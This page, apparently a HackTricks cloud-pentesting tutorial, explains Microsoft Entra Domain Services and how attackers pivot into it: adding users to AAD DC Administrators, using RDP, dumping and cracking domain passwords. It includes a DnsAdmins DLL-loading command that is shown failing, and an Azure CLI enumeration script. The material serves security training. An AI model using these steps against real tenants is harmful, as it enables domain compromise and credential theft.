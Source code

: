 # Az - Microsoft Entra Domain Services

{{#include ../../../banners/hacktricks-training.md}}

## Domain Services

Microsoft Entra Domain Services allows to deploy an Active Directory in Azure without needing to manage Domain Controllers (actually you don't even have access to them).

Its main goal is to allow you to run legacy applications in the cloud that can't use modern authentication methods, or where you don't want directory lookups to always go back to an on-premises AD DS environment.

Note that in order to synchronize the users generated in Entra ID (and not synchronized from other active directories) to the AD domain service you need to **change the password of the user** to a new one so it can be synchronized with the new AD. Actually, the user isn't synchronized from Microsoft Entra ID to Domain Services until the password is changed.

> [!WARNING]
> Even if you are creating a new active directory domain you won't be able to completely managed it (unless without exploiting some misconfigurations), which means that by default for example you cannot create users in the AD directly. You create them by **synchronizing users from Entra ID.** You can indicate to synchronize all users (even those synced from other on-premise ADs), only cloud users (users created in Entra ID), or even **filter them more**.

> [!NOTE]
> In general, due to the lack of flexibity on the configuration of the new domain and the fact that ADs are usually already on-premise, this is not the main integration between Entra ID and AD, but still interesting to know how to compromise it.

### Pivoting

Members of the generated **`AAD DC Administrators`** group are granted local admin permissions on VMs that are domain-joined to the managed domain (but not in the domain controllers) because they are added into the local administrators group. Members of this group can also use **Remote Desktop to connect remotely to domain-joined VMs**, and are also members of the groups:

- **`Denied RODC Password Replication Group`**: This is a group that specifies users and groups whose passwords cannot be cached on RODCs (Read-Only Domain Controllers).
- **`Group Policy Creators Owners`**: This group allows members to create Group Policies in the domain. However, its members can't apply group policies to users or group or edit existing GPOs, so it's not that interesting in this environment.
- **`DnsAdmins`**: This group allows to manage the DNS settings and was abused in the past to [escalate privileges and compromise the domain](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges.html?highlight=dnsadmin#dnsadmins), however after testing the attack in this environment it was checked that the vulnerability is patched:

```text
dnscmd TDW52Y80ZE26M1K.azure.training.hacktricks.xyz /config /serverlevelplugindll \\10.1.0.6\c$\Windows\Temp\adduser.dll

DNS Server failed to reset registry property.
    Status = 5 (0x00000005)
Command failed:  ERROR_ACCESS_DENIED     5    0x5
```

Note that to grant these permissions, inside the AD the group **`AAD DC Administrators`** group is made a member of the previous groups, and also the GPO **`AADDC Computers GPO`** is adding as Local Administrators all the members of the domain group **`AAD DC Administrators`**.

Pivoting from Entra ID to an AD created with Domain Services is straightforward, just add a user into the group **`AAD DC Administrators`**, access via RDP to any/all the machines in the domain and you will be able to steal data and also **compromise the domain.**

However, pivoting from the domain to Entra ID is not as easy as nothing from the domain is being synchronized into Entra ID. However, always checn the metadata to all the VMs joined as their assigned managed identities might have interesting permissions. Also **dump all the users passwords from the domain** and try to crack them to then login into Entra ID / Azure.

> [!NOTE]
> Note that in the past other vulnerabilities in this managed AD were found that allowed to compromise the DCs, [like this one](https://www.secureworks.com/research/azure-active-directory-domain-services-escalation-of-privilege?utm_source=chatgpt.com). An attacker compromising the DC could very easily maintain persistence without the Azure admins noticing or even being able to remove it.

### Enumeration

```bash
# Get configured domain services domains (you can add more subs to check in more subscriptions)
az rest --method post \
  --url "https://management.azure.com/providers/Microsoft.ResourceGraph/resources?api-version=2021-03-01" \
  --body '{
    "subscriptions": [
      "0ce1297c-9153-425d-3229-f51093614377"
    ],
    "query": "resources | where type == \"microsoft.aad/domainservices\"",
    "options": {
      "$top": 16,
      "$skip": 0,
      "$skipToken": ""
    }
  }'

# Get domain configuration
az rest --url "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/entra-domain-services/providers/Microsoft.AAD/DomainServices/<domain-name>?api-version=2022-12-01&healthdata=true"
## e.g.
az rest --url "https://management.azure.com/subscriptions/0ce1297c-9153-425d-3229-f51093614377/resourceGroups/entra-domain-services/providers/Microsoft.AAD/DomainServices/azure.training.hacktricks.xyz?api-version=2022-12-01&healthdata=true"

# Based on the VNet assigned to the domain services, you can enumerate the VMs in the domain

subscription_id="0ce1297c-9153-425d-3229-f51093614377"
vnet_name="aadds-vnet"

# Retrieve all VMs in the subscription
vm_list=$(az vm list --subscription "$subscription_id" --query "[].{Name:name, ResourceGroup:resourceGroup}" --output tsv)

# Iterate through each VM to check their VNet connection
echo "VMs connected to VNet '$vnet_name':"
while IFS=$'\t' read -r vm_name resource_group; do
  nic_ids=$(az vm show --subscription "$subscription_id" --name "$vm_name" --resource-group "$resource_group" --query "networkProfile.networkInterfaces[].id" --output tsv)
  
  for nic_id in $nic_ids; do
    subnet_id=$(az network nic show --ids "$nic_id" --query "ipConfigurations[0].subnet.id" --output tsv)
    
    if [[ $subnet_id == *"virtualNetworks/$vnet_name"* ]]; then
      echo "VM Name: $vm_name, Resource Group: $resource_group"
    fi
  done
done <<< "$vm_list"
```

{{#include ../../../banners/hacktricks-training.md}}
